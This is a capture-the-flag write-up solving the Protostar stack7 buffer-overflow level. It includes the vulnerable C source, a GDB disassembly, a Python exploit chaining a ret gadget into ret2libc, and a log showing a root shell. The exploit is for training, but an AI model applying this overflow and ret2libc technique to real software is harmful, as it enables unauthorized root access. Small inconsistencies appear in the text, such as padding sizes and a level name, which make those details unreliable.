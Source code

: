# Stack7 Solution

## C  Code

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## ROP Gadget

This time, we have *almost* the same program as [stack6](https://github.com/Naksh-Rathore/protostar-solutions/blob/main/stack6/solution.md) just with one key
difference. Instead of checking if the return address starts with `0xbf000000`, it checks if the return address starts with `0xb0000000`. Our objective is to get
a root shell. Again, we have to exploit the `gets()` function, just like every other stack challenge.

Now, the new return address check is a problem for us, since the address to `system()` starts with `0xb0000000`. So, how do we get the shell? Well, can't we
**overwrite the return address twice**? Yes, we can! For the first overwrite, we should be able to change the return address to the `ret` address itself, then
execute our ret2libc the same way. When `ret` executes, it first returns back to itself, then does ret2libc. This it bypasses the check!

This technique is called **ROP**, or return oriented programming. Specifically, we are using something called a **ROP Gadget**, which is a piece of Assembly code
we return to that is already in the `.text` section. A `.text` section is basically where all of the instructions are stored.

## Exploit

Ok, since we have the basic idea let's just copy and edit our [stack6](https://github.com/Naksh-Rathore/protostar-solutions/blob/main/stack6/exploit.py) 
`exploit.py` script. First, let's get the `ret` instruction's address.

Let's open up GDB and disassemble `getpath()`:

```bash
user@protostar:/opt/protostar/bin$ gdb stack7
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) set disassembly-flavor intel
(gdb) disas getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave  
0x08048544 <getpath+128>:       ret    
End of assembler dump.
(gdb) 
```

Now we see that the address of `ret` is `0x08048544`, let's create our exploit script.

Here is our payload visual:

```
[ 72 bytes of padding ]
[ 4 bytes to overwrite ret (it gets changed after though) ]
[ 4 bytes to overwrite saved EBP ]
[ 4 bytes to overwrite return address (returns to itself) ]
[ 4 bytes to return to system ]
[ 4 bytes of a dummy return address (needed though) ]
[ 4 bytes that point to /bin/sh ]
```

Here is our exploit script:

```python
import struct

padding = "A" * 76 # 4 extra bytes for the extra variable
ebp = "LLLL"
gadget = struct.pack("I", 0x08048544) # ret addr flow: ret (first) -> ret (again) -> system
system = struct.pack("I", 0xb7ecffb0)
ret = "AAAA"
bin_sh = struct.pack("I", 0xb7fb63bf)

print(padding + ebp + gadget + system + ret + bin_sh)
```

Result:

```bash
user@protostar:/opt/protostar/bin$ (python /tmp/exploit.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAALLLLD����AAAA�c��
whoami
root
echo "get pwned bozo"
get pwned bozo
ls
final0  final2   format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1  format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
pwd
/opt/protostar/bin
echo "stack levels are done!" 
stack levels are done!
```

## Resources

* [C Code](https://exploit.education/protostar/stack-seven)
* [Wikipedia Article on ROP](https://en.wikipedia.org/wiki/Return-oriented_programming)
